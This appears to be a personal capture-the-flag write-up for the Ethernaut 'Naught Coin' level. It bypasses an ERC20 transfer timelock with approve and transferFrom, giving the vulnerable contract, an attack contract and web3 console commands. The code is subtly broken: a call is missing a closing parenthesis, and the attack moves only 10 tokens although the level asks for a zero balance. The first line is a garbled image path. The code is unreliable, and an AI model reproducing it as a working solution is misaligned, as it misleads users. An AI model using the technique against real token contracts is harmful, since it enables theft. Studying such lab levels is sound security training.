 # 15. Naught Coin

Difficulty 5/10

NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0.

  Things that might help

-   The [ERC20](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-20.md) Spec
-   The [OpenZeppelin](https://github.com/OpenZeppelin/zeppelin-solidity/tree/master/contracts) codebase

https://ethereum.stackexchange.com/questions/80266/approve-contract-to-withdraw-funds-from-userss-wallet

copy Sources to remix then click ABI to get bytecode
![[Pasted image 20211127231638.png]]
enter into console  

```
abi = [pasted abi from remix]
var erc20Instance = new web3.eth.Contract(abi,contract.address);
```

depoly naughtAttack.sol on remix and get address
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/docs-v3.x/contracts/token/ERC20/ERC20.sol";

contract NaughtCoin is ERC20 {

	// string public constant name = 'NaughtCoin';
	// string public constant symbol = '0x0';
	// uint public constant decimals = 18;
	uint public timeLock = now + 10 * 365 days;
	uint256 public INITIAL_SUPPLY;
	address public player;

	constructor(address _player) 
	ERC20('NaughtCoin', '0x0')
	public {
		player = _player;
		INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
		// _totalSupply = INITIAL_SUPPLY;
		// _balances[player] = INITIAL_SUPPLY;
		_mint(player, INITIAL_SUPPLY);
		emit Transfer(address(0), player, INITIAL_SUPPLY);
	}

	function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
		super.transfer(_to, _value);
	}

	// Prevent the initial owner from transferring tokens until the timelock has passed
	modifier lockTokens() {
		if (msg.sender == player) {
			require(now > timeLock);
			_;
		} else {
			_;
		}
	} 
} 

	contract naughtAttack {

	function takeTokens() public {
			NaughtCoin(0x4D0227c26CE03E5e45Cae62ff65390f2195f16dA).transferFrom(msg.sender, address(this), 10 * (10 ** 18); // 0x4D0227c26CE03E5e45Cae62ff65390f2195f16dA = contract.address

	}

}
```


```
erc20Instance.methods.approve("0x05259881ca7e4413638E7BcfB26Be5C774584ea4", "1000000000000000000000000").send({from: "[player address]"});

erc20Instance.methods.approve("[naughtAttack contract address]", "1000000000000000000000000").send({from: "[player address]"});
```

**END**
Level completed!

Difficulty 5/10

When using code that's not your own, it's a good idea to familiarize yourself with it to get a good understanding of how everything fits together. This can be particularly important when there are multiple levels of imports (your imports have imports) or when you are implementing authorization controls, e.g. when you're allowing or disallowing people from doing things. In this example, a developer might scan through the code and think that `transfer` is the only way to move tokens around, low and behold there are other ways of performing the same operation with a different implementation.